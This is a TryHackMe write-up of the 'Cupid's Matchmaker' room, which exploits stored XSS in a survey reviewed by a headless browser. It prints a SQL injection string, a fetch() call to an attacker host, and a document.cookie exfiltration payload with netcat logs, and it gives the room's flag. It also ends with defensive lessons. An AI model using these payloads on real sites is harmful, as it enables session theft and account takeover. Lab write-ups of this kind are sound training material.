


# Cupid's Matchmaker — TryHackMe Write-up

**Platform:** TryHackMe  
**Room:** Cupid's Matchmaker  
**Category:** Web Exploitation  
**Vulnerability:** Cross-Site Scripting (XSS)  
**Tools:** Burp Suite, Gobuster, Netcat, Web Browser

---

## Room Description

> Use your web exploitation skills against this matchmaking service.
>
> Tired of soulless algorithms? At Cupid's Matchmaker, real humans read your personality survey and personally match you with compatible singles. Our dedicated matchmaking team reviews every submission to ensure you find true love this Valentine's Day! 💘
>
> No algorithms. No AI. Just genuine human connection.

**Target:** `http://10.82.134.230:5000`

---

## 1. Reconnaissance

### 1.1 Page Inspection

I started by exploring the web application to understand its functionality and identify potential attack vectors.

The homepage provides instructions on how to use the matchmaking service. Users are required to complete a personality survey by submitting their personal information and preferences. According to the website, the matchmaking team manually reviews each submission.

At first glance, nothing appeared suspicious.

**Homepage:**



*Figure 1: The application's homepage.*

**Survey Page:**



*Figure 2: The personality survey used to collect user submissions.*

I also inspected the page's source code, but I couldn't identify anything particularly interesting.

Next, I used **Burp Suite** to inspect the application's HTTP traffic and observe how the survey submission was processed.

After submitting the survey, I noticed that the application redirected me back to the homepage. No additional information was displayed.

Meanwhile, I launched Gobuster to enumerate hidden directories and discover potentially interesting endpoints.

### 1.2 Directory Enumeration — Gobuster

I used Gobuster with a directory wordlist to identify accessible paths on the web server.

```zsh
gobuster dir -u http://10.82.134.230:5000 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
```

**Output:**

```text
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.82.134.230:5000
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8.2
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================

/admin               (Status: 302)[Size:199] [--> /login]
/login               (Status: 200)[Size:1639] 
/logout              (Status: 200)[Size:189] [--> /]
/survey              (Status: 200)[Size:196]
```

Gobuster discovered three accessible endpoints:

- `/admin` — Authentication page.
- `/logout` — Logout endpoint.
- `/survey` — Personality survey page.

The `/admin` endpoint caught my attention because it was protected by a login form.

Since I didn't have valid credentials, I initially tested some common username and password combinations.

I also attempted a basic SQL injection payload:

```sql
' OR 1=1--
```

However, none of these attempts were successful.

At this point, I decided to investigate a different attack vector.

---

## 2. Research — Cross-Site Scripting (XSS)

Considering that the application allows users to submit information through a survey, I started researching **Cross-Site Scripting (XSS)** as a possible vulnerability.

The most interesting detail was that the matchmaking team supposedly reviewed user submissions manually.

This suggested that submitted data might eventually be displayed to another user, potentially an administrator.

### What is XSS?

Cross-Site Scripting (XSS) is a web vulnerability that allows an attacker to inject malicious JavaScript into a website.

When the injected code is rendered and executed in another user's browser, it runs within the security context of the vulnerable website.

Depending on the application's security controls and the victim's permissions, a successful XSS attack could allow an attacker to:

- Access or modify content displayed on the page.
- Read accessible browser storage or non-HttpOnly cookies.
- Perform HTTP requests using the victim's authenticated browser session.
- Execute actions on behalf of the victim within the vulnerable application.

In this case, I suspected that the survey could be vulnerable to **Stored XSS**, where malicious input is saved by the application and later executed when another user views it.

After researching several XSS techniques and JavaScript payloads, I decided to test whether the application would execute JavaScript submitted through the survey.

---

## 3. XSS Exploitation

### 3.1 Testing JavaScript Execution

I started with a basic XSS payload:

```html
<script>alert(1)</script>
```

This is a common testing payload used to check whether an application executes injected JavaScript.

If the payload is rendered without proper sanitization or output encoding, it may trigger a JavaScript alert.

The purpose of this initial test was to investigate whether the survey fields could be used as an injection point.

### 3.2 Testing an Outbound HTTP Request

Next, I tried a JavaScript payload that would send an HTTP request to a listener running on my attacking machine.

```html
<script>
fetch("http://<attacker-ip>:8000/?cookie")
</script>
```

On my attacking machine, I started a Netcat listener:

```zsh
nc -nvlp 8000
```

**Output:**

```text
listening on [any] 8000 ...
connect to [192.168.129.30] from (UNKNOWN) [10.82.134.230] 57266

GET /?cookie HTTP/1.1
Host: 192.168.129.30:8000
Connection: keep-alive
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/144.0.0.0 Safari/537.36
Accept: */*
Origin: http://localhost:5000
Referer: http://localhost:5000/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
```

**Interesting finding:**

The listener received an HTTP request originating from the target environment.

The request also contained a `HeadlessChrome` user agent, suggesting that the submitted content was being processed by an automated browser.

This was an important discovery because it indicated that our injected JavaScript was executing in a browser associated with the target application.

However, the request did not contain any session data.

The reason: the payload only requested the static URL `/?cookie`. It did not actually access or append the browser's cookies.

### 3.3 Cookie Exfiltration

After confirming that the JavaScript could trigger an outbound request, I modified the payload to retrieve the browser's accessible cookies using `document.cookie`.

**Payload:**

```html
<script>
window.location="http://<attacker-ip>:8000/?cookie="+document.cookie
</script>
```

Unlike the previous payload, this one dynamically appends the value of `document.cookie` to the URL.

The `window.location` property then redirects the browser to the specified address, transmitting the accessible cookie data as part of the HTTP request.

In this TryHackMe environment, I used this technique to retrieve the flag stored in a cookie.

### 3.4 Netcat — Capturing the Flag

I started the Netcat listener again:

```zsh
nc -nvlp 8000
```

After submitting the updated payload, I received the following request:

```text
listening on [any] 8000 ...
connect to [192.168.129.30] from (UNKNOWN) [10.82.134.230] 44528

GET /?cookie=flag=THM{XSS_CuP1d_Str1k3s_Ag41n} HTTP/1.1
Host: 192.168.129.30:8000
Connection: keep-alive
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/144.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://localhost:5000/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
```

**Success!**

The HTTP request contained the flag inside the cookie parameter:

```text
flag=THM{XSS_CuP1d_Str1k3s_Ag41n}
```

This confirmed that the injected JavaScript executed in the target browser and successfully accessed the flag through `document.cookie`.

---

## 4. Conclusion

The Cupid's Matchmaker room demonstrated how a seemingly harmless survey form can introduce a serious security vulnerability.

The application allowed user-controlled input to reach a browser where it was executed as JavaScript.

By exploiting this behavior, I was able to retrieve the flag from a cookie and send it to my attacking machine.

The main lessons from this room were:

- **Reconnaissance:** Inspecting the application, its source code, and HTTP traffic helps identify possible attack surfaces.
- **Directory Enumeration:** Gobuster helped discover additional endpoints, including an administrative login page.
- **XSS Testing:** User-submitted content can become dangerous when rendered without appropriate protections.
- **Browser Context:** JavaScript injected through XSS can access resources available to the affected page, including non-HttpOnly cookies.
- **Incremental Testing:** Confirming outbound communication before modifying the payload helped isolate and understand the vulnerability.

The key security takeaway is that applications must treat user-submitted content as untrusted and apply appropriate output encoding or sanitization before rendering it.

Additional protections such as HttpOnly cookies and a properly configured Content Security Policy (CSP) can help reduce the impact of XSS attacks.

---

## 5. Flag

```text
THM{XSS_CuP1d_Str1k3s_Ag41n}
```

**Room completed!**